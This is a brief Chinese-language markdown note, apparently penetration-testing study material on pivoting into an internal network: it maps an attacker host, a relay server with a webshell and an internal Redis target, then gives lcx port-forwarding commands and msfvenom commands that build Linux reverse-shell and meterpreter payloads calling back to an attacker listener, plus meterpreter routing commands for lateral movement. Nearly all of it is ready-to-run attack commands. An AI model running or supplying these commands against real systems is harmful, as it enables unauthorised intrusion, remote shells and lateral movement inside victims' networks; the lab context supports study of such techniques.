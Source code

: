 ![image-20210902104045852](内网渗透/image-20210902104045852.png)

```sh
A 攻击机
	192.168.12.178
	kali/windows系统
	hydra/mysql-cli/redis-cli
B 中转服务器
	172.16.12.2
	10.10.10.90
	webshell shell.php
c 目标主机
	内网主机 redis 6379   10.10.10.100

在B主机中执行 lcx -tran 8899 10.10.10.100 6379
	netstat -antlp
	开放了8899端口
攻击机可使用 redis-cli 172.16.12.2 -p 8899 连接redis
```



```sh
msfvenom -p linux/x64/shell/reverse_tcp lhost=172.16.12.182 lport=4444 -f elf -o msf

msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=172.16.12.182 lport=4444 -f elf -o msf0

msf获取网段 run get_local_subnets
路由转发添加内网段 run autoroute -s 192.168.10.0/2
```






